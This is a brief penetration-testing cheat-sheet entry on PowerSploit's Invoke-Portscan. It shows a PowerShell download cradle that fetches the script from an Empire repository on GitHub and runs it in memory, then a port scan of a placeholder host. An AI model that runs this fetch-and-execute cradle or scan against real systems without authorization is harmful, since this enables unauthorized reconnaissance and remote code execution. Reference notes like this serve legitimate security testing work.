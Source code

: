# Scripts

Search Tag(s): #post-exploitation #enumeration-and-discovery #networking #offensive-tools #windows

## 01 - PowerSploit

### 1.1 - `Invoke-Portscan`

Download cradle.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/situational_awareness/network/Invoke-Portscan.ps1')
```

Perform portscan on hosts.

```
PS C:\> Invoke-Portscan -Hosts "<IP>" -TopPorts 50
```

---
## References

- [PowerSploit: Invoke-Portscan](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1)